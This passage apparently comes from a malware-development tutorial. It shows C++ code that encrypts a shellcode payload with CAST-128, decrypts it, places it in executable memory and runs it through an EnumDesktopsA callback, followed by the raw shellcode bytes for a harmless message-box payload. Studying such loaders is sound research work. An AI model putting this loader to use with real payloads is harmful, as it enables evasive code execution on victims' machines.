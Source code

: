 ```cpp
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

In the `main` function, a payload (shellcode) is defined, and the key schedule is created. The shellcode is then encrypted and decrypted using the `CAST-128` algorithm.    

As usually I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
